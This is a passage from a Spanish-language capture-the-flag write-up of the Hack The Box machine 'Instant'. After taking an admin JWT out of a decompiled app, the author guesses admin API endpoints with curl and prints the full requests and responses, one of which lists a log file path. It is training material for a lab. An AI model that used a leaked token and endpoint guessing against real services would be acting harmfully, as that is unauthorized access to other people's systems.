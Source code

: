 Parece que ya somos administradores en esta API REST, a alguien se le pasó que podiamos sacar el token simplemente decompilando la aplicación.

### shirohige - instant

Si comenzamos a pensar en posibles endpoints, podemos notar que `view/profile` indica una probabilidad de que las rutas estén estructuradas como `<action>/<object>`. Si probamos por el esquema `admin/<action>/<object>` usando de ejemplo `admin/view/logs`, obtenemos algo:

```bash
❯ curl -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" -v http://mywalletv1.instant.htb/api/v1/admin/view/logs
* Host mywalletv1.instant.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.37
*   Trying 10.10.11.37:80...
* Connected to mywalletv1.instant.htb (10.10.11.37) port 80
* using HTTP/1.x
> GET /api/v1/admin/view/logs HTTP/1.1
> Host: mywalletv1.instant.htb
> User-Agent: curl/8.11.1
> Accept: */*
> Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
> 
* Request completely sent off
< HTTP/1.1 201 CREATED
< Date: Fri, 28 Feb 2025 14:33:54 GMT
< Server: Werkzeug/3.0.3 Python/3.12.3
< Content-Type: application/json
< Content-Length: 64
< 
{"Files":["1.log"],"Path":"/home/shirohige/logs/","Status":201}
```

Vale, con esto ya vamos creando una idea de como pueden ser otros endpoints... probando por `admin/read/log` ahora obtenemos esto:

```bash
❯ curl -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" -v http://mywalletv1.instant.htb/api/v1/admin/read/log
* Host mywalletv1.instant.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.37
*   Trying 10.10.11.37:80...
* Connected to mywalletv1.instant.htb (10.10.11.37) port 80
* using HTTP/1.x
> GET /api/v1/admin/read/log HTTP/1.1
> Host: mywalletv1.instant.htb
> User-Agent: curl/8.11.1
> Accept: */*
> Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
> 
* Request completely sent off
< HTTP/1.1 400 BAD REQUEST
< Date: Fri, 28 Feb 2025 14:40:02 GMT
< Server: Werkzeug/3.0.3 Python/3.12.3
< Content-Type: application/json
< Content-Length: 53
< Connection: close
< 
```